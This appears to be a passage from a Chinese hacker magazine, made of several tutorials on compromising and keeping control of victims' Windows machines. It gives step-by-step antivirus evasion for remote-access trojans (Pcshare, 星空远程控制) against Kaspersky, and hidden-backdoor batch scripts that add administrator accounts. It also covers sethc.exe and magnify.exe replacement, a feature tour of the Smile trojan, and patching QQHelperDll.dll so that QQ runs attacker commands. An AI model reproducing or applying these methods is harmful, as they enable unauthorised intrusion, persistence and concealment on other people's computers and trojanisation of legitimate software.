本文用到的都是很多人都会的老方法，之所以能够成功，是因为 gh0st3.5 本身就有过卡巴主动防御的能力（在刚发布时卡巴还没有提取特征码），如果你也需要一款过卡巴主动防御的木马，那就找一款本身就有能力过的木马然后自己动手免杀一下吧。

（文章中涉及到的 gh0st3.5_修正版、Restorator2006、MyCCL.exe、PEInfo、InstDrv — V1.3 中文版、OllyICE、OD，已经收录在光盘中）

#### 二、环境变量劫持

这个名字很新鲜吧，依然是我自己起的，先看一下 Windows 系统默认的环境变量 %SystemRoot%\system32; %SystemRoot%\System32\Wbem;，它的意思是当一个程序需要调用另一个文件时，如果在当前目录下找不到那个文件，那么系统就会先去 system32 目录下查找，如果还查找不到就会去 Windows 或 Winnt 目录下查找，最后则会去 System32\Wbem\ 目录下查找，如果依然没有找到系统就会返回错误信息，可见 system32 的优先级是最高的。

下面我就对 regedit 劫持一下，假设我们把病毒文件命名为 regedit.exe 并存放在 system32 目录下，而正常的 regedit.exe 则是存放在 windows 目录下的，当用户需要打开注册表时，就会发现注册表打不开了，而这时我们在 system32 目录下的 regedit.exe 病毒就已经被运行了，所有人都以为这是映像劫持，其实这只是环境变量劫持而已。这种劫持方式的应用领域很狭窄，因为用户经常运行的大部分程序都是在优先级最高的 system32 目录下的，这种方法不能用作病毒的主要启动方式。

（本文所涉及到的 IceSprite 已收录到光盘中）

### 浅谈输出表免杀

阿虚

前几天和朋友一起讨论免杀，说起了免杀输出表的事情。现在的杀毒软件越来越喜欢在输出表这儿选定特征码，一般还都会弄成隐藏式的。像在制作诺顿的免杀时，定位出的特征码已经改掉了，再一查杀，照杀不误。这时候大家就要想想是不是诺顿查杀了输出表，因为这个东西也和 PE 文件的头一样，一改文件就不能运行了。我在网上找了一下也没有找到多少关于免杀输出表的有用信息，今天就只好把自己的一些免杀的方法共享给大家了。我们要用到的工具主要有 C32ASM、星空远程控制和 LordPE。

我要免杀的是星空远程控制的 DLL 文件，这个木马 DLL 文件的输出表目前为止都还没有被杀，我是为了方便所以才选择的它，而没有找输出表被查杀的木马。不过大家在制作免杀时早晚会遇到的。

首先生成一个服务端，使用 Restorator 载入生成的服务端，在 100 那个资源上点右键，选择“导出”--“导出为”--“导出为”，再在弹出的对话框里输入要保存的文件名。这是一个 DLL 文件，我就起名为了 star.dll，如图 1。


图 1


图 2

使用 LordPE 载入我们刚才保存的 DLL 文件，按照图 2 里标出的一二三进行点击。LordPE 显示导出表偏移量为 0000c850，使用 C32ASM 载入 DLL 文件，按快捷键 Ctrl+G，在弹出的输入框里输入 c850，点确定后 C32ASM 自动跳转到了地址 c850 处（我省略了 0000，这几个 0 表示地址没什么大的用处，所以以下的全都省略），这就是输出表的地址范围了，如图 3。


图 3

图中地址 c85c 处（这个地址可以根据名称地址推出来，对我们制作免杀来说没什么大的用处，我在这里提到是为了让大家多了解一点 PE 文件的知识）的 4 字节十六进制就是 DLL 的名称地址，也就是“B4 C8 00 00”。这里要注意了，不同的 DLL 里这个十六进制地址的表示方法会有些许的不同。兄弟们只要看 DLL 名称的真实地址，这里就是下面的地址 c8b4 的前几字节再跟 00，也就是 c800，再加上 0000C（B4 减去前三字节的值，也就是减去 0000C），所以要加 B4，后面的函数名地址什么的也要同样进行计算。千万不要以为十六进制里什么都是反的，把十六进制的“B4 C8 00 00”倒过来就是 DLL 的名称，我找的这个 DLL 文件确实是这样，不过可不是所有的都这样，大家要注意一下这里。不信的话各位可以多找几个 DLL 文件，看看它们的这些十六进制的值就明白了。所以 DLL 名称地址就是 c8b4。

从地址 c8b4 开始看，我们知道 DLL 的名称为 Service.dll。地址 c860 处四字节是 01 00，反过来就是 0001，表示的是只有一个 DLL，我们再往下看。从地址 c864 到 c877 可以知道函数的数量、函数名的数量、函数的地址、函数名的地址和函数名排序号的地址，下面我们来分析它。地址 c864 开始的四字节的十六进制为 0006（应该是 60 00，不过它把它反过来了，下面提到十六进制的地方也都反过来了），表示函数的数量是 6。从地址 c867 开始的四字节也是 0006，表示 DLL 的函数名的数量也是 6 个，我们回到 LordPE 数一数，InstallService、ServiceMain、UninstallService、start、InstallA、UninstallA 正好是 6 个。接下来地址 c86c 开始的四字节为 78 C8（省略了 00 00，下同），用 c800 加上 78 就是函数开始的地址，也就是地址 c878。地址 c870 的四字节为 90 C8，也就是 c890，这个就是函数名的地址。去地址 c890 看看，从地址 c890 开始到 c8a7 的十六进制表示的就是函数名了，也就是 C8F2、C8C0、C8CF、C8FB、C8DB、C8EC。到这几个地址分别看一下，正好是 InstallA、InstallService、ServiceMain、UninstallA、UninstallService、start，都是 LordPE 里显示的函数名。回到地址 c870 我们接着分析，地址 c874 的四字节就是函数名排序号的地址了，说白了就是函数名的顺序。地址为 c8a8，我们到地址 c8a8 看，从地址 c8a8 到 c8b3 的十六进制就是函数名的顺序了，也就是 0004、0000、0001、0005、0002、0003，对应上面的函数名地址，所以顺序为零的函数的函数名（十进制中是顺序为 1 的）是第二个，就是 InstallService，其它的类推。回到地址 c874 向下分析，地址 c878 开始的十六进制就是各个函数的 RVA（相对虚拟地址），3890，3770，3C50，2080，3C40，3dA0。这几个 RVA 分别对应的是排名第一第二第三第四第五第六的函数对应的函数地址，也就是说排名 0000 的函数 RVA 为 3890，其它的一样，这个在 LordPE 里也能看到。

好了，对输出表有了一定的了解后我们来改特征码。假设定位出的特征码是地址 c8d2，也就是函数名 ServiceMain 的第三个字节 “v”，如果我们按平时免杀时替换大小写的方法把 “v” 改成 “V”，那么这个 DLL 文件在运行时就会出错，因为函数是不能改大小写的！下面我们就来进行更改。按 Ctrl + c 先将 ServiceMain 复制下来，然后在上面点鼠标右键，选择填充，在弹出的对话框里点确定，使用 00 将它填充了。在这 6 个函数名的后面就有一大块 00 的空区域，我们随便选个地址，我选的是 c930，使用鼠标选中和 ServiceMain 一样字节大小的地方，按 Ctrl + v 将 ServiceMain 粘贴到这里。可不要以为这样就改完了，现在才做到一半，如果保存文件的话，一运行 DLL 还是会出错，因为程序在运行时要找函数名，到地址 c870 一问，地址 c870 的 4 字节告诉它要到地址 c890 处才能找到各个函数名开始的地方。程序到 c890 开始找到了第一个函数名，接着向下找第二个，正常应该去地址 c8cf 找第二个函数名，可是现在地址 c8cf 处开始已经被我们用 00 填了，程序找到的函数名是空，而这个函数名是没有的，所以程序就会运行错误。现在我们使程序正确的找到函数名的开始地址，也就是改指向函数名的地址，改地址 c898 处的 C8CF，将它改为我们新函数名的地址 c930，就是地址 c930 减去 c800 再加上 c800（兄弟们同呼：本来就是 c890，加减 c800，啥也没干嘛！），我之所以这么写就是要大家再次注意，减去的 c800 是根据我上面说过的 DLL 名称推出来的，而加上的那个 c800 是根据十六进制的 0000c800 来的，千万不要弄混！十六进制要反过来也就是写成 30 C9。改完后如图 4 所示，现在我们保存一下，起名为 star1.dll。导回到 EXE 的服务端中运行也不出错了。

为了方便对比，我们用错误的方法改一个和正确的对比一下。将刚才写在地址 c930 处的函数名向后移一位，改完后如图 5，保存为 star2.dll。使用 LordPE 载入修改完后的两个 DLL 看看，如图 6。

star1.dll 函数名正常显示，而 star2.dll 的函数名显示空白，将 star2.dll 导入回 EXE 中运行也会出错。其实我们也可以将两个函数名换一下，只要保证特征码 c8d2 处不出现字母 v 就行。


我就把第一个函数名和 ServiceMain 对换，然后再将它们的指向地址对换，不过这还没完。想想，函数名不是还有对应的顺序吗，这么一换，顺序也跟着变了。所以我们还要将地址 c8a8 和地址 c8aa 处的两字节对换，改完后如图 7 所示。使用 LordPE 载入看看，函数名显示一切正确，顺序也都对，导入回 EXE 文件中运行也不出错，特征码位置也没有出现 v，免杀成功了。如果特征码被定在了别处，如函数名的地址什么的大家也可以使用替换法，这里我就不演示了，兄弟们自己也勤动脑筋。当然更改输出表也可以在 LordPE 里改，这里就当成交作业留给兄弟们自己研究去了。

免杀输出表其实不难，主要是能够理解，当然还需要很强


的逻辑思维能力，我在写本文时就是脑子转不停，可是各个函数名地址的寻找上还是糊糊涂涂的。另外就是要注意我上面说过的减c800加0000c800的问题，因为这两个c800是有着不同意义的，所以一定不要搞混，在不同的DLL文件里这两个值也不尽相同。在我说的这两种免杀方法中我更提倡使用第二种，就是函数名换位法，因为第一种方法在移动函数名时有可能会移动输出表的范围而使文件出错。还有就是上面说过的函数的数量，函数名的数量，函数的地址，函数名的地址和函数名排序号的地址，这些东西在不同的文件里位置会有所不同，不过相对位置一般是不会变的。

（本文所涉及到的C32ASM、星空远程控制、服务端导出的DLL文件star.dll、LordPE、Restorator已收录到光盘中）

### 隐形后门让我们的肉鸡更安全

温鹏

众所周知，当攻击者侵入一台主机后，都会在受害者主机内植入后门或木马，以便自己以后能够轻松连接上这台肉鸡。可是木马毕竟是恶意的程序，即使当时没有被落后的杀毒软件所查杀，但是随着受害者主机上杀毒软件病毒库的逐步更新，其木马也会逐渐的浮出水面。因此要想使肉鸡能够长久的控制下去，使用多种方式安装隐形后门才是最隐蔽的。

#### 一、建立无法检测的隐藏后门

所谓无法检测的隐藏后门，其实就是利用开关机脚本来创建属于自己的管理员帐号。不过与平常所使用的开关机脚本后门还是有一定区别的，具体请看下面介绍的方法。前提是我们已经获得了管理员的帐号和密码，新建立一个文本文件，在其中输入以下代码，括号里的文字为注释：

```
@echo off （在批处理中，用于禁止命令行执行后的回显信息）
net user wenpeng 919796 /add （添加一个名为wenpeng的用户，密码为919796）
net localgroup administrators wenpeng /add （提升wenpeng用户为管理员权限）
```

输入完毕后，将其保存为.bat的批处理文件，为了方便大家的观看，我将文件名称设定为了关机.bat，此时关机的脚本文件就已经建立完毕了。

有了上面的关机脚本，自然也少不了与其对应的开机脚本，同样新建立一个文本文件，在其中输入以下代码：

```
@echo off （在批处理中，用于禁止命令行执行后的回显信息）
net user wenpeng /del （删除系统中的wenpeng用户）
```

以上两条命令输入完后，将文件名称保存为启动.bat批处理文件，然后启用刚才建立完的开关机脚本，在桌面上依次选择“开始”→“运行”，在弹出的“运行”栏中输入gpedit.msc来启动组策略。在其左侧依次展开“计算机配置”→“Windows设置”→“脚本（启动/关机项）”项目（图1），双击右侧的“启动”，打开“启动属性”对话框，从中单击“显示文件”按钮，这时就会自动弹出系统启动脚本的目录C:\WINDOWS\System32\GroupPolicy\Machine\Scripts\Startup（图2）。将刚才建立的“启动.bat”文件复制粘贴到该目录下，然后关闭该文件夹对话框。接下来在“启动属性”对话框内单击右侧的“添加”按钮，在弹出的“添加脚本”对话框内，点击“浏览”并打开本地建立的脚本文件“启动.bat”（图3）。单击“确定”按钮，添加完成，再次单击“应用”按钮使其设置生效，就可以关闭“启动设置”对话框了。接着双击“关机”标签，打开“关机脚本”对话框，按照添加开机脚本的同样方法将“关机.bat”文件添加到“关机脚本”对话框内，最后使其设置生效，无法检测的后门就已经成功生成了。


#### 二、与通常开关机后门不同之处

通常情况下，我们在创建开关机后门时，都会在开机脚本中加入添加管理员帐号的语句，这样当管理员登录后，就会自动创建后门。如果此时的管理员是一个非常老道的网管，他在登录主机后对其系统帐号进行了查询，就会很容易发现我们所建立的后门帐号，因此这种后门的隐蔽性还是很不可靠的。所以我们以上创建的是一个特殊的后门帐号，为什么这么说呢？因为我们设置的关机脚本是在管理员关机后才会自动在系统中添加一个管理员帐号，而管理员登录系统时，开机脚本就会帮我们将添加的帐号删除掉，这样一来管理员就无法检测到根本不存在的非法帐号了，这个帐号够隐蔽吧！

#### 三、建立灵活的3389后门

当然我们也不排除某些人想留大名鼎鼎的3389后门的想法，但是殊不知直接创建并且留下3389帐号是很危险的，换句话说就等于明着告诉管理员已经在其电脑上建立了后门，因此我们要借助Windows系统中特殊的辅助工具来完成这个任务。打开“运行”栏，输入CMD，在弹出的“命令提示符”内执行以下命令：

```
Copy c:\Windows\Explorer.exe c:\Windows\System32\Sethc.exe
Copy c:\Windows\System32\Sethc.exe c:\Windows\System32\Dllcache\Sethc.exe
Attrib c:\Windows\System32\Sethc.exe +h +s +r
```

以上命令的意思是将c:\Windows\System32\Sethc.exe的辅助工具替换成为Explorer.exe，从而可以在3389界面打开粘滞键开关了。以后只要在3389连接界面内连续按下5次Shift键，就可以打开资源管理器对话框，然后利用其弹出的“管理器”界面进入到用户名界面，就可以非常直观的建立管理员帐号了。

#### 四、利用放大镜建后门

除了以上的辅助工具外，我们还可以通过系统提供的放大镜辅助软件建立后门，其方法与上面的相同。不过由于我们需要给后门加上一道密码，因此需要利用放大镜生成器软件来完成这项艰巨的后门任务。

打开“放大镜后门生成器”界面，在其下的“启动密码”文本处输入想要设置的后门密码，单击“生成”按钮，选择好保存的路径，比如c:\wenpeng.exe。然后打开“运行”栏，输入CMD，在命令提示符中再次执行以下命令：

```
copy c:\windows\system32\magnify.exe c:\windows\system32\magnify.exe.bak
copy c:\wenpeng.exe c:\windows\system32\magnify.exe
copy c:\windows\system32\sethc.exe c:\windows\system32\sethc.exe.bak
copy c:\wenpeng.exe c:\windows\system32\sethc.exe
```

操作完毕后，后门就建立完成了。以后在远程的3389界面中，按住Win+U组合键，打开“辅助工具管理器”对话框，选择“放大镜”选项，单击“启动”按钮，在弹出的“输入口令”对话框内输入设定的后门启动密码后就可以打开“后门”程序，执行Cmd.exe和自己添加的自定义用户了。


### 只要有“微笑”，就会有“肉鸡”

两个多月前四川发生了大地震，原先平静的生活被彻底打乱了。现在，生活终于又重归了平静，我又可以继续玩木马了，以前从网上下载了很多木马还没有玩呢！后来我找到了一个不错的国外木马程序，之所以选择它，是因为它有一个可爱的名字——Smile（微笑）。测试完后感觉非常不错，因此今天就来介绍一下这款国外木马的特点。

#### 一、配置服务端程序

首先运行Smile木马的客户端，点击“File”中的“Editor”命令，在弹出的窗口中就可以进行服务端的配置操作了。我们分别在“Service Description”、“Service Name”和“Service Data”中设置服务端程序所使用的启动服务、服务端文件描述、服务端文件名称等。接着在DNS和PORT中设置服务器连接所使用的IP地址和连接端口。最后根据自己的需要选择“Offline Keylogger”和“Melt Server”这两个选项，再点击“Create”按钮就可以生成服务端程序了（图1）。


图1

#### 二、服务端实际控制

我们把配置好的服务端程序上传到虚拟机中运行，当服务端程序成功运行后，我们点击客户端中的“Start Listening”按钮，就开始打开端口进行服务端的监听操作了。很快就有客户端提示服务端连接成功，客户端的主机列表中就会看到有主机上线。大家注意观察的话，可以发现程序图标由蓝色变成了红色（图2）。


图2

这时可以选择要监控的远程系统，然后就可以进行各种远程操作了。我们选择需要连接的远程系统并进行双击，只有这样客户端才知道你要对谁进行操作。同时我们也可以看出，这款木马不能同时对多个服务端进行控制操作。点击“Managers”下拉菜单，其中包括了文件、注册表、进程、窗口、服务等管理命令。

我们点击“Files”命令，就可以在文件管理窗口对磁盘文件进行管理。点击窗口中的“Get Drives”命令，就可以得到远程系统中的磁盘信息，选择需要查看的磁盘目录后，可以在窗口右侧显示出其中的文件。通过鼠标右键中的命令，可以实现简单的文件管理操作，包括刷新、上传、下载、运行、删除等。通过窗口中的“Network Shares”命令，可以指定一个远程目录共享到本地计算机中（图3）。


图3

选择下拉菜单中的“Registry”命令，在弹出的窗口中就可以对远程注册表进行管理了。在树状列表中依次选择需要查看的注册表键值，在右侧窗口就能够对该键值下的信息进行管理，其中包括新建键值、删除键值、编辑键值等。接着点击“Services”命令来查看远程系统中的系统服务，通过右键菜单中的命令，可以对系统服务进行刷新、开始、恢复、停止等操作，还可以进行安装和卸载等操作。比如点击菜单中的“Install”命令，在弹出的窗口中设置创建服务的名称，描述等信息，这样就可以轻松的创建一个新的系统服务了（图4）。


图4

再点击窗口中的“Processes”命令，通过它就可以对远程系统中的进程信息进行管理。在“进程”窗口中点击右键中的刷新命令，就可以查看到远程系统当前的进程情况，利用右键中的“Kill”命令可以随时终止其中的任意一个进程。另外该木马程序还别出心裁的包括了一个模块信息查看命令。只需要在进程列表中选择一个进程，然后点击右键菜单中的“Modules”命令，即可在窗口下方的Modules列表中查看到相应的模块信息（图5）。


图5

通过“Windows”命令，可以看到远程系统中的窗口信息。同样先用右键中的“刷新”命令来获取远程系统里面最新的窗口情况，然后利用右键命令对窗口进行关闭、最大化、最小化、隐藏、显示等操作（图6）。


图6

除了“Managers”下拉菜单外，“Tools”菜单中也有不少的控制命令，包括系统信息、查找文件、桌面、网络视频、插件等命令。除了通过“Files”命令进行管理外，还可以通过“Find Files”命令来进行文件的查找和搜索。在窗口中设置好需要搜索的文件目录和文件名称，文件名称可以使用通配符来进行代替。搜索完成后，通过右键菜单中的控制命令，可以直接进行下载等操作（图7）。经过测试，发现前面提到的 Offline Keylogger 功能，由于某些问题暂时还不能进行使用。


图7

作为一款木马程序，远程屏幕控制操作是不可缺少的功能。点击“Tools”菜单中的“Desktop”命令，就可以进行远程桌面的监控操作了。点击窗口下方的“Capture”命令，程序就可以进行远程桌面的截屏操作，通过截屏的信息可以获得远程桌面目前的内容。通过选中“Enable mouse clicks”选项，就可以直接在木马的屏幕监控窗口直接通过鼠标对远程系统进行控制操作（图8）。Smile 木马的截屏效果还是非常不错的，只是截屏的速度不是特别的快，我想这可能和 Smile 木马截屏采用的 BMP 图片格式有关吧。好在木马作者也考虑到了这个问题，在木马程序目录中包括了一个功能插件。点击“File”中的“setting”命令，在弹出的窗口中选择“Capture compression”和“Auto Upload dll”选项后即可。这样当使用远程桌面监控功能时，客户端就会主动上传相应的功能插件，并且对桌面截屏的数据进行 JPG 压缩，从而有效的提高了桌面信息的传输速度。


图8

#### 三、总结

通过上面的介绍，我们发现 Smile 木马的功能还是非常不错的，不仅服务端程序短小精悍，而且远程控制功能也非常强大，完全可以满足用户最常用的远程管理操作。虽然 Smile 木马并没有服务端隐藏的相关设置，但是通过实际测试，我发现 Smile 木马是将服务端进程插入到 IE 浏览器中的，这样可以有效的突破网络防火墙的拦截。因此我还是推荐各位木马爱好者在有空的时候可以玩玩这款给我们带来微笑的木马程序。

（本文所涉及到的 Smile 木马已收录到光盘中）


### 剑走偏锋！看我如何过卡巴

f4U5t

刚刚考完试，想到再过几天就可以回家了，心情真的好舒畅啊！到 X 论坛看了下，发现某位叉子很无私的把免杀的Pcshare共享了出来，就下载了回来。不过天下没有免费的午餐，X 论坛是开放式的论坛，所以那个免杀的 Pcshare 现在已经失效了。不过不要紧，作为叉子的我们可以自力更生嘛，所以今天我就来做 Pcshare 的免杀，要过的杀毒软件是卡巴斯基 7.0。

Pcshare 目录下的 update 文件夹里有三个文件：PcHide.sys、PcMain.dll和PcInit.exe。Pcshare 服务端就是靠这三个文件像搭积木一样搭成的。所以对这三个文件进行免杀后，生成的服务端自然也就是免杀的了。好了，现在使用卡巴扫描一下，不出所料的全部被查杀了，如图 1。


我们分别对这三个文件进行免杀，首先是 PcInit.exe。关于特征码定位的过程在以前的 X 档案里都详细的介绍过，所以就不再赘述，使用 MyCCL 定位得到的特征码如图 2 所示。


图2

使用 WinHex 打开转到偏移量，发现是个小写的 u，如图 3。


图3

我们把它直接改成大写的就可以了，保存之后使用卡巴扫描一下，卡巴没有任何反应，免杀的第一步就圆满成功了。接下来是 PcHide.sys，同样使用 MyCCL 定位得到特征码如图 4 所示。

```
>>复合特征码定位结果<<
文件名:C:\Documents and Settings\f4u5t\桌面\PcHide.sys
特征码 物理地址/物理长度 如下:
[特征] 00000772_00000002
```


图4

由于 sys 文件是不能使用 OD 调试的，所以我就使用 C32Asm 打开，跳到该物理地址后点击右键选择“对应 HEX 编辑”，发现是个大写的 Q，如图 5。呵呵，运气真好！如法炮制把它改为小写的 q，再次躲过了卡巴大叔的追杀。

```
00000740: 00 74 47 68 20 00 01 00 80 95 F0 FE FF FF 52 FF
00000750: 15 10 03 01 00 83 C4 08 80 85 F8 FE FF FF 50 80
00000760: F0 FE FF FF 51 15 00 03 01 00 80 95 F0 FE
00000770: FF FF 52 FF 15 08 03 01 00 80 95 08 80 40 04 61
00000780: 00 7C FF 53 15 08 03 01 00 80 95 F8 FE FF FF
00000790: 50 62 01 00 00 CC CC CC CC CC CC CC CC CC
000007A0: 55 8B EC 81 EC 00 00 00 00 57 56 45 80 80 00 0F
000007B0: 84 32 04 00 00 8B 45 08 50 6A 00 64 00 00 00 00
...t...sq...
...R.
...u...P.
...Q...
...R..a
...
...
U..W..
...
2...E.Pj.d....
...
```

图5

最后就是免杀 PcMain.dll 了，定位出来的特征码如图 6 所示。

```
>>复合特征码定位结果<<
文件名:C:\Documents and Settings\f4u5t\桌面\PcMain.dll
特征码 物理地址/物理长度 如下:
[特征] 00010771_00000002
```


图6

使用 OD 打开后稍微移动一下光标来到了如图 7 所示的位置，发现特征码处是个 call 语句，既然如此我们就把特征码附近的三条语句顺序打乱，按常理来说是不会破坏堆栈平衡的，又可以起到免杀的目的，修改后如图 8 所示。

```
1001136B > 57            push    edi
1001136C . 56            push    esi
1001136D . 53            push    ebx
1001136E . E8 D5F0FFFF   call    10011048
10011373 . 8BF1          mov     esi, 1
10011375 . 8945 0C       mov     dword ptr [ebp+C], eax
10011378 . 75 00         jnz     short 1001137A
1001137A . 8BF1          mov     esi, 1
```

图7

```
1001136E . 8BF1          mov     esi, 1
10011371 . 90            nop
10011372 . 90            nop
10011373 . 8945 0C       mov     dword ptr [ebp+C], eax
10011376 . E8 D5F0FFFF   call    10011048
```

图8

保存之后再扫描一下，卡巴已经查不出了。我们把这二个免杀好的文件放回到 update 文件夹，打开 Pcshare 生成一个服务端，在开启卡巴监控的状态下运行服务端程序，成功上线了，如图 9。

本来以为这样就可以很开心的收工了，没想到当我测试免杀后 Pcshare 的各种功能时，却发现屏幕监控、超级终端等好几个功能无法正常使用！我心想这回坏了，一定是哪个文件在免杀的时候被损坏了。我仔细的检查了一番，最后发现问题是出在 PcMain.dll 身上，我把未做免杀的 PcMain.dll 放回到 update 文件夹，然后重新生成一个服务端，关掉卡巴测试一下，可以正常上线，功能也没有少。这样看来 PcMain.dll 特征码的那几行代码是不能打乱顺序的。


## 牧马记

2008 合订本下卷


图9

于是我尝试使用跳转法，可是结果还是一样，Pcshare 的某些功能会被影响。使用 WinHex 打开 PcMain.dll，发现特征码处是个“.”，因此不敢贸然修改。可能会有读者说可以使用 00 填充啊，网上的教程有很多都是这么说的。在这里我要强调一下：网上那些所谓的免杀教程有很多都是在误人子弟！什么使用 00 填充，若是一些无关紧要的字符串还可以这么做，但倘若是关键代码使用 00 填充的话，杀毒软件确实是不叫了，可这样一来我们的马儿也完蛋了，因为堆栈平衡都被破坏了，当然也就无法运行了！我回过头来仔细的想了想，这个 PcMain.dll 还真是顽强，以往的方法用在这里都不起作用。这时我跳转到了 10010DD0 这个子程序所在的位置，看到了如下代码，如图 10。


图10

我突发奇想，既然不让我跳转，那我就来个“偷龙转凤”，在另外一个位置重新构造一个子程序，然后在原地址进行调用，只要新的子程序功能和原来调用的子程序相同，那不达到同样的效果了吗！我们现在找到一个零区段，不要找太远的，否则会出错。我找的零区段地址是 10011760，因为原始的子程序中含有很多的无用代码，所以我们可以稍微做点改动，只要不破坏堆栈平衡就行了。我把修改后的子程序代码一句句的填了进去，如图 11。


图11

注意到图中那个 jnz 跳转地址和原来的不同了吗，在这里得根据需要自己改动。回到开始的那条 call 语句处，把原来的语句改为“call 10011760”，也就是我们新的子程序的地址，然后保存，把处理后的 PcMain.dll 放回到 update 文件夹。现在再来打开 Pcshare 生成一个服务端，使用卡巴扫描一下，卡巴大叔已经放过我们的小马了。在卡巴的监控状态下再来运行一下，成功上线，因为我并没有在语句顺序方面做任何的改动，该位置调用的子程序功能也是和原来的完全一样，所以这次所有的功能都没有缺少哦，如图 12。


图12

就这样，我们这一番“狸猫换太子”成功骗过了卡巴大叔的火眼金睛！不过美中不足的是，由于卡巴斯基的主动防御确实厉害，我的木马虽然做好了免杀，可是在运行盘监控、注册表修改等功能的时候还是会被主动防御拦截。不过好在卡巴有个先天缺陷，就是系统时间一修改就会失效，所以我们可以利用这点来突破卡巴的主动防御。除此之外还有许多方法比如恢复 SSDT 什么的来突破主动防御，网上有很多教程的，X 档案杂志中也经常提到过，这里就不再赘述了。最后祝兄弟们暑假愉快，肉鸡多多。

（本文所涉及到的 MyCCL、WinHex、OllyICE、C32ASM、OC 已收录到光盘中）

### DLL 文件插码打造可交互式后门

txcbg

大家注意了，标题中是“插码”并非“插马”，没有错，今天我要讲的“插码”，就是在文件的全 0 处插入代码，在不破坏原程序功能的基础上执行我们指定的命令。

自从看了黑客 X 档案第三期杂志中我爱大饼朋友所写的“小小逆向工程整美眉”一文后，我就对文件“插码”产生了浓厚的兴趣。文中我爱大饼朋友写的是 exe 文件中插码，那可不可以往 dll 文件中插码呢？


经过我的测试，证明这完全是可行的。如果执行的命令是类似 net user 123 123 /add 这样的，尽管命令可以被成功执行，但这条命令却是固定不能变的，如果要执行别的命令，还要重新把代码写入文件中，这样比较麻烦。后来我又想到了 bat 批处理文件，如果在文件中插入的代码的功能是执行我们的一个批处理文件，通过修改批处理文件中的命令，是否可以让插码后的文件方便的执行不同的命令呢？为了能看到命令执行的情况，我使用“>>”把命令执行后的结果输出到了文件，这样就相当于有了“命令回显”了。


在开始测试前，来简单介绍一下文件插码的原理。一般文件因为对齐等原因，文件内部有一些空白区域（因为以十六进制显示的是 00，也叫全 0 区域），在空白区域写入我们要执行的简短命令，通过修改原程序的入口点跳到我们添加的那段命令上，执行完你添加的命令后再跳回到原程序的原入口点继续执行。为了使测试更具有普遍性，我选择插码的文件是 QQ2008 Beta2 安装目录下的 QQHelperDll.dll（只要运行 qq.exe，弹出来登录窗口时就已经加载了一个 dll 文件）。

新建一个文本文档，在给文件插码的过程中需要记录一些东西。为了寻找空白区域，先来看看 QQHelperDll.dll 的基址，使用 LordPE 打开文件，发现基址是 618A0000，如图 1。


再使用 PEiD 打开文件，发现是“Microsoft Visual C++ 6.0 DLL [调试]”，没有加壳，这可方便了不会脱壳的小菜。点 EP 段后面的向右按钮，打开节查看器，点鼠标右键，选择“搜索全 0 处”，如图 2，搜索结果如图 3 所示。


发现 .text 段区的 0 区域有 E80 个字节，已经足够写入我们的代码了，就选择这个 0 区域了。618A0000（基址）+0008D180（.text 段区的 RVA）=6192D180，得到全 0 区域开始的内存地址，记录下来。使用 OD 打开 QQHelperDll.dll，却弹出了如图 4 所示的错误提示（为了方便操作，我把 QQHelperDll.dll 单独复制了一份到桌面上，操作的就是桌面上的那个），既然提示没有找到 BasicCtrl.dll，我就从 QQ2008 Beta2 的安装目录下把 BasicCtrl.dll 复制到了桌面，再次使用 OD 打开，这次成功了，如图 5。


程序停在了入口点，把入口点 61910D53 记录下来，一会儿要用到的。按 Ctrl+G 来到 6192D180（上面计算出来的全 0 区域开始处）处，向下走 5 行来到要写入代码的地方 6192D185，我要写入的代码是 cmd /c "C:\Program Files\Tencent\QQ\test.bat"，命令长度是 45 个字节，从 6192D185 开始向下到 6192D1B2 选择 46 个字节，点鼠标右键，选择“二进制”->“编辑”，把命令复制粘贴进去，如图 6。再向下 3 行来到 6192D1B6 处，这里将作为程序的新入口点，依次写入如下代码，如图 7。

```
push 0
push 6192D185
call WinExec
jmp 61910D53
```

其中 6192D185 是开始写入命令代码的地方，61910D53 是程序在 OD 中的原入口点，“push 0”和“call WinExec”是固定命令。点右键，选择“复制到可执行文件”->“所有修改”->“全部复制”，然后再点右键，选择“保存文件”，把修改后的文件保存一下。下面使用 LordPE 来修改程序的入口点，新入口点等于在 OD 中的新程序入口点减去程序的基址，即 6192D1B6-618A0000=8D1B6，记得是十六进制减法啊，对于不会手动计算的朋友，我已经提供了一个很好用的编程计算器给大家。使用 LordPE 打开修改后的文件，把程序的入口点由原来的 70D53 修改为 8D1B6，然后进行保存，如图 8。


现在，文件插码就算完成了，看能否起到预期的效果。把插码后的 QQHelperDll.dll 覆盖 QQ 安装目录下的同名文件，在 C:\Program Files\Tencent\QQ\ 下建立 test.bat 文件，bat 文件的内容为：

```
@echo off
cmd /c net start >> .\test.txt
```

意思就是执行“net start”命令，并把命令结果输出到跟 test.bat 相同目录下的 test.txt 中，大家也可以更换成其它的命令，比如 net user 123 123 /add 等。打开 qq.exe，发现 QQHelperDll.dll 已经被 qq.exe 加载了，如图 9。再到 C:\Program Files\Tencent\QQ\ 目录下看看，已经生成了 test.txt，打开看看，看到了命令成功执行后的结果，如图 10。


图10

唯一不足的是文件大了点，发现命令被执行了多次，也许是 QQHelperDll.dll 被调用多次的缘故吧，还好不影响使用，我们把 test.bat 中的命令换成下边这样：

```
@echo off
cmd /c net user 123 123 /add >> test.txt
cmd /c net localgroup administrators 123 /add >> test.txt
```

建立管理员用户 123 成功，并在 test.txt 中看到了命令回显，如图 11。


图11

由于 test.bat 中要执行的命令我们可以任意更换，又通过 test.txt 看到了命令执行的结果，这也就打造了一个可交互式的后门，我们可以用来执行命令，也能获取对方计算机的信息。插码的文件既可以是 exe 文件，也可以是 dll 文件，个人认为选择 dll 文件插码要比在 exe 文件中插码更加的隐蔽。以前有人使用替换文件来进行提权，如果能够替换文件的话，理论上就可以对原文件插码达到同样的效果，但隐蔽性要高很多，因为原程序的功能还存在，再加上我们的代码是写在程序的 0 区域，所以修改后程序的大小是不变的。如果再修改一下文件时间，效果会更好的。由于我们只是在文件内部写入了几行代码，并没有使用捆绑软件，杀毒软件自然也是不查杀的。

试想当大家得到了一个 webshell，在使用一般的方法提权失败后，你发现一个经常被执行或调用的文件所在的目录可写，试试文件插码打造一个可交互式后门吧（杀毒软件的升级文件，qq 等都是不错的选择，前提是要插码的文件没被加壳——）。通过让插码的文件执行 bat 文件，你可以获得以前没有权限看到的东西，执行添加管理员用户等命令。至于怎样知道一个 exe 文件加载了哪些 dll 文件，推荐使用 Wsyscheck 查看，用鼠标点一下进程中的 exe 文件，下面窗口中就会显示该 exe 文件运行后加载的 dll 文件了。（本文所涉及到的 QQHelperDll(修改).dll、编程计算器、Wsyscheck 已收录到光盘中）

### 再谈输入表免杀

阿虚

